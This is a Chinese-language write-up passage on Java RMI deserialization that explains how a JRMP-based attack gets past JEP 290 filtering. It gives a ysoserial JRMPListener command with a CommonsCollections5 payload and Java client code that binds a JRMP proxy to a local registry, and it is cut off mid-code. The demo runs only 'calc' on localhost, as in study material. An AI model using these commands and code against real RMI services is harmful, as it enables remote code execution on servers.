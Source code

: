 ```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections5 "calc"
```

然后通过payload/JRMPClient来生成payload，然后反序列化这个payload对服务端发起一个call连接，JRMP服务端返回恶意远程对象，DGC发起dirtyCall，直接反序列化恶意对象

![image-20220417120050192](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220417120050192.png)

这里是不受JEP290的限制的，JEP290默认没有对JRMP客户端的反序列化做限制，所以能够打通

现在仍然起一个恶意的服务端

```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections5 "calc"
```

yso中的JRMPClient相应代码：

```
ObjID id = new ObjID(new Random().nextInt()); // RMI registry
TCPEndpoint te = new TCPEndpoint(host, port);
UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
Registry proxy = (Registry) Proxy.newProxyInstance(JRMPClient.class.getClassLoader(), new Class[] {
Registry.class
}, obj);
return proxy;
```

这里直接开一个客户端去连接

```
package ysoserial.JRMP;

import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;

import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Proxy;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.ObjID;
import java.rmi.server.RemoteObjectInvocationHandler;
import java.util.Random;


public class Client {
    public static void main(String[] args) throws RemoteException, IllegalAccessException, InvocationTargetException, InstantiationException, ClassNotFoundException, NoSuchMethodException, AlreadyBoundException {

        Registry reg = LocateRegistry.getRegistry("127.0.0.1",1099);
        ObjID id = new ObjID(new Random().nextInt()); // RMI registry
        TCPEndpoint te = new TCPEndpoint("127.0.0.1", 1099);
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
        RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
        Registry proxy = (Registry) Proxy.newProxyInstance(Client.class.getClassLoader(), new Class[] {
            Registry.class
        }, obj);
        reg.bind("hello",proxy);

    }

```